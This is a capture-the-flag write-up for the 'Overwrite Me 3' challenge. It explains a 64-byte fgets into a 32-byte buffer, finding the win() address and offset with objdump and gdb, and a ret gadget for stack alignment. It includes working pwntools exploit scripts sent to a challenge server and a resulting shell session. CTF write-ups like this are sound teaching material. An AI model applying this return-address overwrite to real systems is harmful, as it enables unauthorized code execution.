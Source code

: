 ## Overwrite Me 3

This challenge had me jump to another function in the code, without the function ever being called  in the c code.

The buffer array was only 32 bytes, but `fgets()` did not stop writing until it had written 64 bytes. This would overflow the buffer. 

We can see that the `win()` function executes `/bin/sh` which would give me a shell. Therefore that was the location to jump to.

```c
int main()
{
    char buffer[32];

    ignore_me_init_buffering();
    ignore_me_init_signal();
	
    printf("You now know how to hit payloads on offsets. Use this knowledge to force a win out of this program!\n\n");
	printf("Let's play. Guess a number between 1-10:\n");

	fgets(buffer, 64, stdin);

	if (strcmp(buffer, "5\n") != 0)
	{
		lose();
	}
	else
	{
		lose_again();
	}

	return 0;

}

lose()
{
	printf("Wrong. You lose!\n");
}

lose_again()
{
	printf("Pfft. Also wrong. You lose again!\n");
}

win()
{
	printf("Correct! You won! Here comes the shell\n");
	system("/bin/sh");
}
```

My first step was to find the address of the `win()` function. This was done by using `objdump -t`
on the binary file. 
The output here is truncated to better fit on the screen.

I saw that the win function had the address `0x00000000004013a6` in memory.

```c
0000000000000000       F *UND*  0000000000000000              strcmp@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              signal@@GLIBC_2.2.5
0000000000000000  w      *UND*  0000000000000000              __gmon_start__
000000000040129b g     F .text  0000000000000033              kill_on_timeout
0000000000404068 g     O .data  0000000000000000              .hidden __dso_handle
0000000000402000 g     O .rodata        0000000000000004              _IO_stdin_used
00000000004013d0 g     F .text  0000000000000065              __libc_csu_init
00000000004013a6 g     F .text  0000000000000023              win
00000000004040b0 g       .bss   0000000000000000              _end
0000000000401180 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401150 g     F .text  000000000000002f              _start
0000000000404070 g       .bss   0000000000000000              __bss_start
00000000004012f4 g     F .text  0000000000000084              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
00000000004012ce g     F .text  0000000000000026              ignore_me_init_signal
000000000040138f g     F .text  0000000000000017              lose_again
0000000000000000       F *UND*  0000000000000000              exit@@GLIBC_2.2.5
0000000000404070 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
00000000004040a0 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```

The next step was to debugg the binary in gdb and find the offsett.
By running the binary with the string `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ` I could find out where the offsett was.

Below is how the registers looked after i executed the binary in gdb with the string above.
I could see that the `rsp` register contained `KKKKLLLLMMMMNNNNOOOOPPP`. The `rsp` register contains the address that gets popped into the `rip` register on a `ret` instruction. The `rip` register contains the address of the next instruction. Therefore I want to put the address of the `win()` function in the `rip`register, to jump there and get a shell.

The padding for this exploit is therefore `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ`

In x86-64 the value in the `rsp` register does not get popped to `rip` unless it is a valid address. This was my first mistake, because i looked for the overflow in the `rip` register, but the values i passed in to find the offset were not valid addresses. In x86 on the other hand does pop the value in `esp` into `eip` (`esp` and `eip` are the equivalent registers in x86).


```c
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x007ffff7e8da37  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1
$rsp   : 0x007fffffffdb48  →  "KKKKLLLLMMMMNNNNOOOOPPP"
$rbp   : 0x4a4a4a4a49494949 ("IIIIJJJJ"?)
$rsi   : 0x1
$rdi   : 0x007ffff7f94a70  →  0x0000000000000000
$rip   : 0x00000000401377  →  <main+131> ret
$r8    : 0x10
$r9    : 0x0
$r10   : 0x007ffff7d82360  →  0x000f001a00007b95
$r11   : 0x246
$r12   : 0x007fffffffdc58  →  0x007fffffffdf12  →  "/home/mathias/ctf/kcsc/overwrite_me/overwrite3"
$r13   : 0x000000004012f4  →  <main+0> endbr64
$r14   : 0x0
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

I could now write my exploit. 

```python
from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"

win = p64(0x00000000004013a6)

p = remote("20.240.63.48", 30007)

p.recvuntil(b"Let's play. Guess a number between 1-10:\n")

p.sendline(padding + win)

p.interactive()
```

By running it i got this:
```shell
$ python3 exploit.py
[+] Opening connection to 20.240.63.48 on port 30007: Done
[*] Switching to interactive mode
Wrong. You lose!
[*] Got EOF while reading in interactive
```
I got an EOF (End Of File) Error. This was not supposed to happen. I did not really know what the problem was until i was sent this article by @tbi: https://ropemporium.com/guide.html

The issue seemed to be that the stack was unaligned. A so-called `MOVEAPS` issue. The link above said this: 
>>> movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a `push` instruction.

I decided to try pad an extra `ret` before the `win()` address. I were recommended https://github.com/JonathanSalwan/ROPgadget
This program can find ROPgadgets in a binary.
Running the program on the binary given in the challenge:

```shell
$ ROPgadget --binary overwrite3 --opcode c3
Opcodes information
============================================================
0x000000000040101a : c3
0x0000000000401184 : c3
0x00000000004011b0 : c3
0x00000000004011f0 : c3
0x000000000040121e : c3
0x0000000000401220 : c3
0x000000000040129a : c3
0x00000000004012cd : c3
0x00000000004012f3 : c3
0x0000000000401377 : c3
0x000000000040138e : c3
0x00000000004013a5 : c3
0x00000000004013c8 : c3
0x000000000040141f : c3
0x0000000000401434 : c3
0x0000000000401444 : c3
0x0000000000401454 : c3
```

The opcode `c3` is the opcode for the `ret` instruction, which i found here: https://shell-storm.org/x86doc/RET.html

By choosing one of the addresses above, I tried again.

```python
from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"

win = p64(0x00000000004013a6)

ret = p64(0x000000000040101a)

p = remote("20.240.63.48", 30007)

p.recvuntil(b"Let's play. Guess a number between 1-10:\n")

p.sendline(padding + ret + win)

p.interactive()
```


This time it worked and I did not get an EOF Error.
```shell
$ python3 exploit.py
[+] Opening connection to 20.240.63.48 on port 30007: Done
[*] Switching to interactive mode
Wrong. You lose!
Correct! You won! Here comes the shell
$ ls
flag.txt
overwrite_me3
ynetd
$ cat flag.txt
KCSC{w4it_th4ts_nOt_aLLow3d}
```